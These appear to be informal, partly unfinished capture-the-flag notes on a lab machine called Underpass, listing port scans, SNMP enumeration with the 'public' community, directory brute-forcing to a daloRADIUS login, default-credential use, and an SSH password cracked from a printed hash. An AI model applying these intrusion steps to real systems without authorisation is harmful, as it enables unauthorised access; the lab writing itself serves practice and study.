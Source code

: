 rustscan -a 10.10.11.48
we see that port 22 and 80 is open.

do a deeper scan
sudo nmap -sS -sU -T4 10.10.11.48
(highly recommend adding --top-ports 50)

load the page and we can see 

![[Pasted image 20250412161601.png]]


fuck I have not been updaing this 


see udp port 161

 snmpwalk -v2c -c public 10.10.11.48

SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (1073236) 2:58:52.36
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
**SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!**
SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas
SNMPv2-MIB::sysServices.0 = INTEGER: 72


feroxbuster -u http://underpass.htb/daloradius/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt,conf,bak

leads up to 
http://underpass.htb/daloradius//app/operators/login.php

use defult creds 

and ssh into the user with 
svcMosh
underwaterfriends
which is the the product of 412DD4759978ACFCC81DEAB01B382403 cracked with [here](https://crackstation.net/)


